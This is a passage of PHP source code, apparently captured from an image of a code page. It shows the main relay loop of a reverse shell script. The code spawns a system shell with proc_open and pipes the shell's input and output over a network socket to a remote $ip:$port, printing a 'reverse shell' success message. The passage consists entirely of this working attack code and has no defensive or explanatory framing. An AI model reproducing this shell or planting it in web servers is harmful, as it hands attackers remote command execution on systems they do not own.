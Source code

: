 ```
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
```